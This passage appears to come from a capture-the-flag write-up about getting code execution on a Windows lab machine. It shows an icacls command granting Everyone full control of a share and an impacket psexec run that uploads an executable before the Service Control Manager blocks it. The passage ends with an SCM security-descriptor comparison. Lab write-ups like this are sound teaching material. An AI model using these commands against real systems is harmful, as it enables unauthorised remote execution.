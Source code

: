 
Everyone can read and execute, but not write. I’ll change that:

    
    
    C:\Shares>icacls users /grant :r Everyone:F
    processed file: users                                
    Successfully processed 1 files; Failed processing 0 files
    
    C:\Shares>icacls users
    users Everyone:(F)
          BUILTIN\BUILTIN:(R)
          Everyone:(OI)(CI)(RX)
          NT AUTHORITY\SYSTEM:(OI)(CI)(F)
          BUILTIN\Administrators:(OI)(CI)(F)
    
    Successfully processed 1 files; Failed processing 0 files
    

#### New PSExec Fail

Now when I run `psexec.py`, it finds the writable share, but fails later:

    
    
    root@kali# psexec.py 'tempuser:***********@10.10.10.178'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
    
    [*] Requesting shares on 10.10.10.178.....
    [-] share 'ADMIN$' is not writable.
    [-] share 'C$' is not writable.
    [-] share 'Data' is not writable.
    [-] share 'Secure$' is not writable.
    [*] Found writable share Users
    [*] Uploading file WOFaTJjw.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [-] Error opening SVCManager on 10.10.10.178.....
    [-] Error performing the installation, cleaning up: Unable to open SVCManager
    

It can’t open the Service Control Manager.

#### svcmanager Permissions

I’ll check the Service Control Manager permissions, just like before:

    
    
    C:\>sc sdshow scmanager
    
    D:(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)
    

I’ll compare what’s different (spaces added by me to get things to line up):

    
    
    orig:    D:(A;;KA;;;AU)(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)
    patched: D:            (A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)
    